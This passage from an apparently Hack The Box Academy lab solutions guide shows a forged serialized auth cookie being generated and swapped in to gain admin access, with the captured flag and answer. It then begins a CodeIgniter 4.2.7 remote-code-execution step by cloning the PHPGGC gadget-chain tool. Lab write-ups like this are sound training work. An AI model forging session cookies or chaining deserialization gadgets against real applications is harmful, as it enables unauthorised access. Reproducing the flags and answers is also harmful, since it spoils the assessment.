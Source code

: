 Subsequently, students need to run the script to attain the cookie:

Code: shell

```shell
php generateCookie.php
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-qmmsulophr]─[~]
└──╼ [★]$ php generateCookie.php

YTozOntzOjI6ImlkIjtzOjQ6InRlc3QiO3M6ODoidXNlcm5hbWUiO3M6NDoidGVzdCI7czo0OiJyb2xlIjtzOjE6IjAiO30=.e41d1a116f53e48cb3a24f880cb89c19be39c80a
```

Using the same previously registered account, students need to replace the `auth` cookie value with the generated one and then refresh the page, to find the flag `HTB{a9c1863ecc6775e6c5fd2597d47a1d29}`:

![[HTB Solutions/CWEE/z. images/b65c9ef93af698c02f2420cb3e2e9822_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/a2bb68634480d0c09f4eaf32a41d4e33_MD5.jpg]]

Answer: `HTB{a9c1863ecc6775e6c5fd2597d47a1d29}`

# Skills Assessment II

## Question 2

### "\[http://SERVER\_IP:8080\] Achieve remote command execution and read the flag.txt file"

From the previous question, students know that the web application utilizes the PHP framework `CodeIgniter 4.2.7`:

![[HTB Solutions/CWEE/z. images/c8a5a38d4b9a81df647c009ceff92400_MD5.jpg]]

Moreover, after accessing the admin dashboard, students have the ability to import posts:

![[HTB Solutions/CWEE/z. images/e428a4f648a32f032b3edb259367e797_MD5.jpg]]

Therefore, to achieve remote code execution, students need to use `gadget chains`. First, if `PHPGCC` is not installed, students need to clone its [repository](https://github.com/ambionics/phpggc) and change directories into it:

Code: shell

```shell
git clone https://github.com/ambionics/phpggc.git && cd phpggc/
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-tihlybxmyf]─[~]
└──╼ [★]$ git clone https://github.com/ambionics/phpggc.git && cd phpggc/

Cloning into 'phpggc'...
remote: Enumerating objects: 3150, done.
remote: Counting objects: 100% (696/696), done.
remote: Compressing objects: 100% (266/266), done.
remote: Total 3150 (delta 458), reused 554 (delta 400), pack-reused 2454
Receiving objects: 100% (3150/3150), 461.88 KiB | 7.00 MiB/s, done.
Resolving deltas: 100% (1330/1330), done.
```
